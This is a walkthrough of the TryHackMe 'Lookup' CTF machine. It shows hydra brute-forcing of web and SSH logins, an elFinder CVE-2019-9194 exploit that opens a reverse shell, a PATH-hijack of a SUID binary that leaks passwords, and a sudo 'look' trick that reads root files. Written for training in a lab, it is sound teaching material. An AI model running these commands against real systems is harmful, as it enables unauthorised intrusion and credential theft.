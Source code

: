 ```yaml
---
clayout: ctf
title: Lookup
type: TryHackMe
date: 2025-03-04
level: Easy
icon: /ctf/tryhackme/lookup/icon-room.png
image: /ctf/tryhackme/lookup/icon-room.png
description: Test your enumeration skills on this boot-to-root machine.
ctf-link: https://tryhackme.com/room/lookup
---
```


## Challenge description

Lookup offers a treasure trove of learning opportunities for aspiring hackers. This intriguing machine showcases various
real-world vulnerabilities, ranging from web application weaknesses to privilege escalation techniques. By exploring and
exploiting these vulnerabilities, hackers can sharpen their skills and gain invaluable experience in ethical hacking.
Through "Lookup," hackers can master the art of reconnaissance, scanning, and enumeration to uncover hidden services and
subdomains. They will learn how to exploit web application vulnerabilities, such as command injection, and understand
the significance of secure coding practices. The machine also challenges hackers to automate tasks, demonstrating the
power of scripting in penetration testing.

# Challenge Overview

In this challenge, we are tasked with gaining access to a vulnerable web application, escalating our privileges, and
ultimately retrieving the root flag. The target system hosts a login page and a file management system, which we will
enumerate and exploit to achieve our objective.

## Enumeration

### Nmap Scan

To begin, we perform a comprehensive scan of the target machine to identify open ports and services:

```bash
nmap -sC -sV -v -p- -oN lookup.nmap 10.10.223.218
```

#### Scan Results:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 445f26674b4a919b597a9559c84c2e04 (RSA)
|   256 0a4bb9b177d24879fc2f8a3d643aad94 (ECDSA)
|_  256 d33b97ea54bc414d0339f68fadb6a0fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://lookup.thm
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The scan reveals two open ports:

- **22/tcp**: SSH service running OpenSSH 8.2p1
- **80/tcp**: HTTP service running Apache httpd 2.4.41

## Web Enumeration

### Accessing the Web Application

Navigating to the target machine's IP address redirects us to `http://lookup.thm`. To access this domain, we add it to
our `/etc/hosts` file:

```bash
echo "10.10.223.218 lookup.thm" | sudo tee -a /etc/hosts
```

Upon visiting `http://lookup.thm`, we find a login page:

![Lookup Login Page](/ctf/tryhackme/lookup/login-page.png)

## Credential Brute-Force Attack

### Username Enumeration

Testing with `admin:admin` returns an error message indicating an incorrect password, which suggests that the username
`admin` exists. This allows us to perform a brute-force attack.

```bash
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/2020-200_most_used_passwords.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password."
```

#### Output:

```bash
[80][http-post-form] host: lookup.thm   login: admin   password: redacted
```

Although we find a valid password, logging in still fails. We pivot to brute-forcing usernames using `redacted`.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p redacted lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong"
```

#### Output:

```bash
[80][http-post-form] host: lookup.thm   login: jose   password: redacted
```

Now, logging in as `jose` grants access to the application.

## File Management System Exploitation

Upon login, we are redirected to `http://files.lookup.thm/`. After adding it to `/etc/hosts`, we gain access to the file
manager system called `Elfinder`.

![Elfinder](/ctf/tryhackme/lookup/files-page.png)

Checking for vulnerabilities, we find **CVE-2019-9194**, which allows an attacker to upload a malicious PHP payload for
remote code execution.

### Exploiting Elfinder

We found the exploit script on [GitHub](https://github.com/hadrian3689/elFinder_2.1.47_php_connector_rce).

```bash
python3 exploit.py -t 'http://files.lookup.thm/elFinder/' -lh 127.0.0.1 -lp 4444
```

We successfully obtain a reverse shell as `www-data`:

```bash
www-data@lookup:/var/www/files.lookup.thm/public_html/elFinder/php$ whoami
www-data
```

## Privilege Escalation

### Finding Credentials

Listing `/home`, we find a user `think`. Searching for files with the SUID bit set:

```bash
find / -type f -perm -u=s 2>/dev/null
```

We identify `/usr/sbin/pwm` as a potential target.

### Exploiting `pwm`

Running it returns:

```bash
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

We can hijack the `id` command by modifying the `$PATH` variable:

```bash
echo "echo 'uid=1001(think) gid=1001(think) groups=1001(think)'" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
```

Running `pwm` again now leaks the passwords:

```bash
jose1006
jose1004
josemario.AKA(think)
```

Using `hydra` to brute-force SSH with the leaked passwords:

```bash
hydra -l think -P passwords.txt 10.10.16.248 ssh
```

We successfully log in using `think:redacted`.

```bash
ssh think@10.10.16.248
think@lookup:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```

Now, we can read the user flag:

```bash
cat user.txt
THM{USER_FLAG}
```

### Root Privilege Escalation

Checking `sudo` permissions:

```bash
sudo -l
```

```
User think may run the following commands on lookup:
    (ALL) /usr/bin/look
```

Using `GTFOBins`, we find that `look` can read arbitrary files as root:

```bash
LFILE=/root/root.txt
sudo look '' "$LFILE"
```

This successfully retrieves the root flag:

```bash
THM{ROOT_FLAG}
```